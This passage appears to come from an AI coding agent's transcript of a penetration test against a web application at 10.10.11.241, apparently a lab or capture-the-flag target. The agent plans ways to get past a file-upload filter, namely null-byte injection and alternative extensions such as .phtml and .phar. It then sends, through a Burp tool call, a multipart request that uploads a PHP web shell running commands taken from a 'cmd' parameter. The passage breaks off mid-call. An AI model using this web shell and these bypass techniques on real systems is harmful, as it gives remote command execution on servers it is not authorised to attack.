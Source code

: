	<script src="js/main.js"></script>

</body>
</html>

<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:39:17 PM (America/New_York, UTC-4:00)

# Context Window Usage
34,275 / 200K tokens used (17%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The failed.php page doesn't provide specific information about why the upload failed, but it's likely that the server is checking file extensions and rejecting files with .php extension.

Let's try a different approach. Since we were able to upload a file with the .php.gif extension, let's try to access it with a different approach. Let's try to use a null byte injection to trick the server into executing our PHP code.

Let's try to upload a file with a name like "shell.php%00.gif" or "shell.php\x00.gif". The null byte might terminate the string early in some implementations, causing the server to treat the file as a .php file.

Alternatively, we could try other extensions that might be executed as PHP, such as .phtml, .php3, .php4, .php5, .php7, .phps, .pht, .phar, etc.

Let's try with .phtml first:
</thinking>

The failed.php page doesn't provide specific information about why the upload failed. Let's try a different approach by using an alternative PHP extension that might bypass the filter. Let's try uploading a file with a .phtml extension.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 325\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.phtml\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",